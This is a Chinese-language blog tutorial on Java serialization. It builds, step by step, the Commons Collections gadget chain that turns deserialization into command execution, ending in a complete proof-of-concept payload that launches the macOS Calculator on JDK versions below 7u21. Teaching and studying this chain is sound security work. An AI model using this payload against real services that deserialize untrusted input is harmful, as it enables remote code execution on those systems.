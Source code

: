 #+LATEX_HEADER: \usepackage{fontspec}
#+LATEX_HEADER: \setmainfont{Songti SC}
#+STARTUP: indent
#+STARTUP: hidestars
#+OPTIONS: ^:nil toc:nil
#+JEKYLL_CATEGORIES: sec
#+JEKYLL_TAGS: java sec
#+JEKYLL_COMMENTS: true
#+TITLE:java反序列化研究
** 什么是序列化和反序列化？
- 序列化

  把对象转换为字节序列的过程称为对象的序列化。

- 反序列化

  把字节序列恢复为对象的过程称为对象的反序列化。

- 隐喻

  通俗的讲，在java代码运行的时候，我们可以看到很多的对象，可以是单一的一个，也可以是一类对象的集合。这些对象中保存着很多数据，把有些信息持久的保存起来，那么这个过程叫做序列化，简而言之就是把内存里面的这些对象给变成一连串的字节描述的过程。

  打个比方，在你搬家的时候。你把衣柜里的所有物品放入德邦快递的编织袋中。到了新家之后，再从编织袋里把所有物品取出来，原样摆放到新家的柜子中。物品放入编织袋这一动作可以看作序列化，把物品从袋子中取出来原样摆放，可以看作反序列化。

- show me the code

  先看一段最基本的代码。
  #+BEGIN_SRC java
    package com.cxs.research.serial;

    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.IOException;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.io.Serializable;

    /**
     ,* Created by chenxuesong on 18/8/20.
     ,*/
    public class DemoA implements Serializable {

        private String filedA = "default";

        private void readObject(java.io.ObjectInputStream stream)
            throws IOException, ClassNotFoundException {
            System.out.println("DemoA function called in deserialize process.");
            stream.defaultReadObject();
        }

        public String getA() {
            return this.filedA;
        }

        public static void main(String[] args) throws IOException, ClassNotFoundException {
            DemoA a = new DemoA();
            a.filedA = "chenxuesong";
            byte[] serializeData = serialize(a);
            DemoA c = (DemoA) deserialize(serializeData);
            System.out.println(c.getA());
        }

        public static byte[] serialize(final Object obj) throws IOException {
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(out);
            objOut.writeObject(obj);
            return out.toByteArray();
        }

        public static Object deserialize(final byte[] serialized)
            throws IOException, ClassNotFoundException {
            ByteArrayInputStream in = new ByteArrayInputStream(serialized);
            ObjectInputStream objIn = new ObjectInputStream(in);
            return objIn.readObject();
        }
    }
  #+END_SRC
  这段代码展示了最简单的序列化和反序列化的场景，生成一个DemoA类的对象a，然后修改fieldA属性为“chenxuesong”。serialize函数中通过writeObject函数把对象序列化到ByteArrayOutputStream流中。然后在deserialize中调用readObject从ByteArrayInputStream流中恢复对象。

  执行代码片段，可以得到以下两句输出。
  #+BEGIN_SRC shell
    DemoA function called in deserialize process.
    chenxuesong
  #+END_SRC
  readObject函数我们并没有直接调用，但是从执行结果来看。这个函数在反序列化的过程中被间接调用了。具体流程可以不用分析，只需要记住 *如果实现了Serializable的类重写了readObject函数，那么反序列化过程中会调用readObject函数。* 这一结论即可。
  
  再来看第二段代码。
  #+BEGIN_SRC java
    package com.cxs.research.serial;

    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.IOException;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.io.Serializable;

    /**
     ,* Created by chenxuesong on 18/8/20.
     ,*/
    public class DemoB implements Serializable {

        private int fieldB;
        private DemoA a;

        public DemoB() {
            this.fieldB = 20;
        }

        private void readObject(java.io.ObjectInputStream stream)
            throws IOException, ClassNotFoundException {
            System.out.println("DemoB function called in deserialize process.");
            stream.defaultReadObject();
        }

        public static void main(String[] args) throws IOException, ClassNotFoundException {
            DemoB b = new DemoB();
            b.a = new DemoA();
            byte[] serializeData = serialize(b);
            DemoB c = (DemoB) deserialize(serializeData);
            System.out.print(c.a.getA());
        }

        public static byte[] serialize(final Object obj) throws IOException {
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(out);
            objOut.writeObject(obj);
            return out.toByteArray();
        }

        public static Object deserialize(final byte[] serialized)
            throws IOException, ClassNotFoundException {
            ByteArrayInputStream in = new ByteArrayInputStream(serialized);
            ObjectInputStream objIn = new ObjectInputStream(in);
            return objIn.readObject();
        }
    }
  #+END_SRC
  这一段代码比之前一段更为特殊，DemoB中有一个成员变量的类型是DemoA。直接运行代码，分析输出。在反序列化DemoB的时候，相应的DemoA也被反序列化了。
  #+BEGIN_SRC shell
    DemoB function called in deserialize process.
    DemoA function called in deserialize process.
    default
  #+END_SRC
  因此，我们又可以得到一个结论 *如果成员变量的类也实现了Serializable，会对成员变量进行序列化和反序列化操作* 。

- 结论
  1. *序列化反序列的本质是对对象的成员变量进行操作*

  2. *如果实现了Serializable的类重写了readObject函数，那么反序列化过程中会调用readObject函数*

  3. *如果成员变量的类也实现了Serializable，会对成员变量进行序列化和反序列化操作*
** 如何把恶意代码写入数据
根据 *序列化反序列的本质是对对象的成员变量进行操作* 这一结论。我们可以操控的只有对象的成员变量，并且java语言层次里面只有 *反射* 能够实现数据到任意代码的转换。因此，我们需要找到一些类，它内部包装了 *反射* 功能，另外它还可以被序列化。

在common-collections中， *ChainedTransformer和InvokerTransformer* 刚好符合以上两点。可以用来包装恶意代码。

先看一段java反射代码。执行reflection函数可以直接启动计算器。
#+BEGIN_SRC java
    public static void reflection() {
        try {
            Class cls = Class.forName("java.lang.Runtime");
            Method getRuntime = cls.getMethod("getRuntime", new Class[]{});
            Object runtime = getRuntime.invoke(null);
            Method exec = cls.getMethod("exec", String.class);
            exec.invoke(runtime, "/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
    }
#+END_SRC

我们再看看 InvokerTransformer的代码实现。它在构造函数中接收一系列参数，然后在transform函数中触发反射代码执行。
#+BEGIN_SRC java
  //
  // Source code recreated from a .class file by IntelliJ IDEA
  // (powered by Fernflower decompiler)
  //

  package org.apache.commons.collections.functors;

  import java.io.Serializable;
  import java.lang.reflect.InvocationTargetException;
  import java.lang.reflect.Method;
  import org.apache.commons.collections.FunctorException;
  import org.apache.commons.collections.Transformer;

  public class InvokerTransformer implements Transformer, Serializable {
      static final long serialVersionUID = -8653385846894047688L;
      private final String iMethodName;
      private final Class[] iParamTypes;
      private final Object[] iArgs;

      public static Transformer getInstance(String methodName) {
          if(methodName == null) {
              throw new IllegalArgumentException("The method to invoke must not be null");
          } else {
              return new InvokerTransformer(methodName);
          }
      }

      public static Transformer getInstance(String methodName, Class[] paramTypes, Object[] args) {
          if(methodName == null) {
              throw new IllegalArgumentException("The method to invoke must not be null");
          } else if((paramTypes != null || args == null) && (paramTypes == null || args != null) && (paramTypes == null || args == null || paramTypes.length == args.length)) {
              if(paramTypes != null && paramTypes.length != 0) {
                  paramTypes = (Class[])paramTypes.clone();
                  args = (Object[])args.clone();
                  return new InvokerTransformer(methodName, paramTypes, args);
              } else {
                  return new InvokerTransformer(methodName);
              }
          } else {
              throw new IllegalArgumentException("The parameter types must match the arguments");
          }
      }

      private InvokerTransformer(String methodName) {
          this.iMethodName = methodName;
          this.iParamTypes = null;
          this.iArgs = null;
      }

      public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
          this.iMethodName = methodName;
          this.iParamTypes = paramTypes;
          this.iArgs = args;
      }

      public Object transform(Object input) {
          if(input == null) {
              return null;
          } else {
              try {
                  Class ex = input.getClass();
                  Method ex1 = ex.getMethod(this.iMethodName, this.iParamTypes);
                  return ex1.invoke(input, this.iArgs);
              } catch (NoSuchMethodException var5) {
                  throw new FunctorException("InvokerTransformer: The method \'" + this.iMethodName + "\' on \'" + input.getClass() + "\' does not exist");
              } catch (IllegalAccessException var6) {
                  throw new FunctorException("InvokerTransformer: The method \'" + this.iMethodName + "\' on \'" + input.getClass() + "\' cannot be accessed");
              } catch (InvocationTargetException var7) {
                  throw new FunctorException("InvokerTransformer: The method \'" + this.iMethodName + "\' on \'" + input.getClass() + "\' threw an exception", var7);
              }
          }
      }
  }
#+END_SRC 
ChainedTransformer只是包含了一个Transformer数组的类，在它自己的transform函数中依次调用Transformer数组中的每一个元素的transform函数。
#+BEGIN_SRC java
  //
  // Source code recreated from a .class file by IntelliJ IDEA
  // (powered by Fernflower decompiler)
  //

  package org.apache.commons.collections.functors;

  import java.io.Serializable;
  import java.util.Collection;
  import java.util.Iterator;
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.FunctorUtils;
  import org.apache.commons.collections.functors.NOPTransformer;

  public class ChainedTransformer implements Transformer, Serializable {
      static final long serialVersionUID = 3514945074733160196L;
      private final Transformer[] iTransformers;

      public static Transformer getInstance(Transformer[] transformers) {
          FunctorUtils.validate(transformers);
          if(transformers.length == 0) {
              return NOPTransformer.INSTANCE;
          } else {
              transformers = FunctorUtils.copy(transformers);
              return new ChainedTransformer(transformers);
          }
      }

      public static Transformer getInstance(Collection transformers) {
          if(transformers == null) {
              throw new IllegalArgumentException("Transformer collection must not be null");
          } else if(transformers.size() == 0) {
              return NOPTransformer.INSTANCE;
          } else {
              Transformer[] cmds = new Transformer[transformers.size()];
              int i = 0;

              for(Iterator it = transformers.iterator(); it.hasNext(); cmds[i++] = (Transformer)it.next()) {
                  ;
              }

              FunctorUtils.validate(cmds);
              return new ChainedTransformer(cmds);
          }
      }

      public static Transformer getInstance(Transformer transformer1, Transformer transformer2) {
          if(transformer1 != null && transformer2 != null) {
              Transformer[] transformers = new Transformer[]{transformer1, transformer2};
              return new ChainedTransformer(transformers);
          } else {
              throw new IllegalArgumentException("Transformers must not be null");
          }
      }

      public ChainedTransformer(Transformer[] transformers) {
          this.iTransformers = transformers;
      }

      public Object transform(Object object) {
          for(int i = 0; i < this.iTransformers.length; ++i) {
              object = this.iTransformers[i].transform(object);
          }

          return object;
      }

      public Transformer[] getTransformers() {
          return this.iTransformers;
      }
  }
#+END_SRC
使用ChainedTransformer和InvokerTransformer本身包含了反射功能，通过输入指定的参数也可以实现和reflection函数一样的功能。需要声明一点的是ChainedTransformer中的transformers数组，在ChainedTransformer的transform函数执行过程中，前一个元素执行自身的transform函数的返回值作为后一个元素的transform函数的参数。具体过程可以自行参考ChainedTransformer的实现逻辑。
#+BEGIN_SRC java
  Transformer[] transformers = new Transformer[]{
      new ConstantTransformer(Runtime.class),
      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                             new Object[]{"getRuntime", new Class[0]}),
      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                             new Object[]{null, new Object[0]}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{
              "/Applications/Calculator.app/Contents/MacOS/Calculator",}),
  };
  Transformer transformerChain = new ChainedTransformer(transformers);
  transformerChain.transform(null);
#+END_SRC
** 初次利用
上一节主要讲述了如何把我们的恶意代码封装到对象里(找到实现了序列化接口的类)，最终生成了一个链式调用的对象(ChainedTransformer)。仅仅是把封装了恶意代码的对象进行序列化，然后经过传输，最终到目的地进行反序列化。恶意代码并不会触发，因为序列化反序列化的本质是对数据进行打包和重打包。因此我们需要找到一个点，触发我们的反射代码执行。到这一步，结论二 *如果实现了Serializable的类重写了readObject函数，那么反序列化过程中会调用readObject函数* 就派上用场了。它的存在给予了我们在反序列化过程中执行额外代码的机会。

假如一个可以被序列化的对象当中包含了一个ChainedTransformer对象，并且这个对象的类重写了readObject函数，在函数中又恰巧调用了transform函数触发反射代码执行。下面的代码演示了这种理论下完美的情况。但是没有人会在readObject调用transform函数。
#+BEGIN_SRC java
  package com.cxs.research.serial;

  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;

  import java.io.ByteArrayInputStream;
  import java.io.ByteArrayOutputStream;
  import java.io.IOException;
  import java.io.ObjectInputStream;
  import java.io.ObjectOutputStream;
  import java.io.Serializable;
  import java.lang.reflect.InvocationTargetException;
  import java.lang.reflect.Method;

  /**
   ,* Created by chenxuesong on 18/8/22.
   ,*/
  public class DemoC implements Serializable{
      private Transformer chain;

      public void setChain(Transformer chain) {
          this.chain = chain;
      }

      private void readObject(java.io.ObjectInputStream stream)
          throws IOException, ClassNotFoundException {
          System.out.println("DemoC function called in deserialize process.");
          stream.defaultReadObject();
          // 额外操作，触发反射调用链执行
          chain.transform(null);
      }

      public static void main(String[] args) throws IOException, ClassNotFoundException {
          Transformer[] transformers = new Transformer[]{
              new ConstantTransformer(Runtime.class),
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                                     new Object[]{"getRuntime", new Class[0]}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                                     new Object[]{null, new Object[0]}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{
                      "/Applications/Calculator.app/Contents/MacOS/Calculator",}),
          };
          Transformer transformerChain = new ChainedTransformer(transformers);
          DemoC c = new DemoC();
          c.setChain(transformerChain);
          // 模拟序列化和反序列化
          byte[] out = serialize(c);
          DemoC c_deserialize = (DemoC) deserialize(out);
      }

      public static byte[] serialize(final Object obj) throws IOException {
          ByteArrayOutputStream out = new ByteArrayOutputStream();
          ObjectOutputStream objOut = new ObjectOutputStream(out);
          objOut.writeObject(obj);
          return out.toByteArray();
      }

      public static Object deserialize(final byte[] serialized)
          throws IOException, ClassNotFoundException {
          ByteArrayInputStream in = new ByteArrayInputStream(serialized);
          ObjectInputStream objIn = new ObjectInputStream(in);
          return objIn.readObject();
      }

  }
#+END_SRC
** 最终实现
既然不存在在readObject中直接调用transform函数执行反射链的情况。那么搜索所有调用transform函数的地方，寻找一个可以利用的点。

TransformedMap中的checkSetValue就是这样一个完美的触发点。当parent为TransformedMap的对象时。执行MapEntry中的setValue就会触发transform的执行。我们只需要提前构建好valueTransformer这个反射调用链即可。TransformedMap继承了抽象类AbstractMapEntryDecorator。这里不再复述，可以直接跟踪源码进行分析。
#+BEGIN_SRC java
  // TransformedMap.java
  protected Object checkSetValue(Object value) {
      return valueTransformer.transform(value);
  }

  // AbstractInputCheckedMapDecorator.java
  static class MapEntry extends AbstractMapEntryDecorator {

      /** The parent map */
      private final AbstractInputCheckedMapDecorator parent;

      protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
          super(entry);
          this.parent = parent;
      }

      public Object setValue(Object value) {
          value = parent.checkSetValue(value);
          return entry.setValue(value);
      }
  }
#+END_SRC
通过调用setValue，间接执行transform函数。同样也可以启动计算器。
#+BEGIN_SRC java
  package com.cxs.research.serial;

  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.TransformedMap;

  import java.io.IOException;
  import java.util.HashMap;
  import java.util.Map;

  /**
   ,* Created by chenxuesong on 18/8/23.
   ,*/
  public class DemoD {

      public static void main(String[] args) throws IOException, ClassNotFoundException {
          Transformer[] transformers = new Transformer[]{
              new ConstantTransformer(Runtime.class),
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                                     new Object[]{"getRuntime", new Class[0]}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                                     new Object[]{null, new Object[0]}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{
                      "/Applications/Calculator.app/Contents/MacOS/Calculator",}),
          };
          Map map = new HashMap();
          map.put("key", "value");
          Transformer transformerChain = new ChainedTransformer(transformers);
          Map<String, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);
          for (Map.Entry<String, Object> entry : transformedMap.entrySet()) {
              System.out.print(entry.getKey());
              entry.setValue("anything");
          }
      }
  }
#+END_SRC
现在我们知道了执行TransformedMap中MapEntry对象的setValue即可触发恶意代码。接下来只要在反序列化过程中想办法执行setValue函数就能达到我们的目的。另外我们没有直接写代码的机会，所以找找那些重写readObject函数的类，其中只要调用setValue即可。

恰巧AnnotationInvocationHandler中的readObject会调用setValue函数。
#+BEGIN_SRC java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if(var7 != null) {
                Object var8 = var5.getValue();
                if(!var7.isInstance(var8) || var8 instanceof ExceptionProxy) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
#+END_SRC

最终构造的的payload如下。注意要在JDK7u21以下的版本才会生效。
#+BEGIN_SRC java
  package com.cxs.research.serial;

  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.TransformedMap;

  import java.io.ByteArrayInputStream;
  import java.io.ByteArrayOutputStream;
  import java.io.IOException;
  import java.io.ObjectInputStream;
  import java.io.ObjectOutputStream;
  import java.lang.annotation.Retention;
  import java.lang.reflect.Constructor;
  import java.lang.reflect.InvocationTargetException;
  import java.util.HashMap;
  import java.util.Map;

  /**
   ,* Created by chenxuesong on 18/8/23.
   ,*/
  public class DemoE {

      public static void main(String[] args)
          throws IOException, ClassNotFoundException, IllegalAccessException,
                 InvocationTargetException, InstantiationException, NoSuchMethodException {
          Transformer[] transformers = new Transformer[]{
              new ConstantTransformer(Runtime.class),
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                                     new Object[]{"getRuntime", new Class[0]}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                                     new Object[]{null, new Object[0]}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{
                      "/Applications/Calculator.app/Contents/MacOS/Calculator",}),
          };
          Map map = new HashMap();
          map.put("test", "value");
          Transformer transformerChain = new ChainedTransformer(transformers);
          Map<String, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);
          Constructor
              constructor =
              Class.forName("sun.reflect.annotation.AnnotationInvocationHandler")
              .getDeclaredConstructor(Class.class, Map.class);
          constructor.setAccessible(true);
          Object object = constructor.newInstance(Retention.class, transformedMap);
          byte[] out = serialize(object);
          Object object_deserialize = deserialize(out);
      }


      public static byte[] serialize(final Object obj) throws IOException {
          ByteArrayOutputStream out = new ByteArrayOutputStream();
          ObjectOutputStream objOut = new ObjectOutputStream(out);
          objOut.writeObject(obj);
          return out.toByteArray();
      }

      public static Object deserialize(final byte[] serialized)
          throws IOException, ClassNotFoundException {
          ByteArrayInputStream in = new ByteArrayInputStream(serialized);
          ObjectInputStream objIn = new ObjectInputStream(in);
          return objIn.readObject();
      }
  }
#+END_SRC

